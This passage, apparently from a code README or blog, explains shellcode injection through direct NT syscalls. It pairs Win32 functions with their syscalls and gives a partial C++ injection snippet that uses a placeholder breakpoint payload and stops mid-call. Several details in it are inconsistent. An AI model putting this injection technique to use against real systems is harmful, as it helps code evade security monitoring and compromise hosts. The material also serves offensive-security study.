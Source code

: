 Usually, in order to be able to inject some shellcode in the current process or a remote one, the simplest way to do it is to invoke the following Win32 APIs: VirtualAlloc, WriteMemoryProcess, CreateRemoteThread and WaitForSingleObject.

We need to find the equivalent syscalls in order to achieve the same result. After a bit of research, I came out with the following mapping:

|Win32 API|Syscall|
|-|-|
|VirtualAlloc|NtAllocateVirtualMemory|
|WriteProcessMemory|NtWriteVirtualMemory|
|CreateRemoteThread|NtCreateThreadEx|
|WaitForSingleObject|NtWaitForSingleObject|

The minimal snippet showing a basic shellcode injection via raw, manually executed syscalls is the following:

```cpp
#include <windows.h>
#include "inline_syscall/include/in_memory_init.hpp"

NTSTATUS NtAllocateVirtualMemory(
    _In_ HANDLE ProcessHandle,
    _Inout_ _At_(*BaseAddress, _Readable_bytes_(*RegionSize) _Writable_bytes_(*RegionSize) _Post_readable_byte_size_(*RegionSize)) PVOID *BaseAddress,
    _In_ ULONG_PTR ZeroBits,
    _Inout_ PSIZE_T RegionSize,
    _In_ ULONG AllocationType,
    _In_ ULONG Protect);

NTSTATUS NtWriteVirtualMemory(
    _In_ HANDLE ProcessHandle,
    _In_opt_ PVOID BaseAddress,
    _In_reads_bytes_(BufferSize) PVOID Buffer,
    _In_ SIZE_T BufferSize,
    _Out_opt_ PSIZE_T NumberOfBytesWritten);

NTSTATUS NtCreateThread(
    _Out_ PHANDLE ThreadHandle,
    _In_ ACCESS_MASK DesiredAccess,
    _In_opt_ POBJECT_ATTRIBUTES ObjectAttributes,
    _In_ HANDLE ProcessHandle,
    _Out_ PCLIENT_ID ClientId,
    _In_ PCONTEXT ThreadContext,
    _In_ PINITIAL_TEB InitialTeb,
    _In_ BOOLEAN CreateSuspended);

NTSTATUS NtWaitForSingleObject(
    _In_ HANDLE Handle,
    _In_ BOOLEAN Alertable,
    _In_opt_ PLARGE_INTEGER Timeout
    );

unsigned char* shellcode = "\xcc";

int main(int argc, char** argv) {
    jm::init_syscalls_list();
    void *allocation = nullptr;
    NTSTATUS status = STATUS_PENDING;
    HANDLE hThread = -1;
    status = INLINE_SYSCALL(NtAllocateVirtualMemory)(
```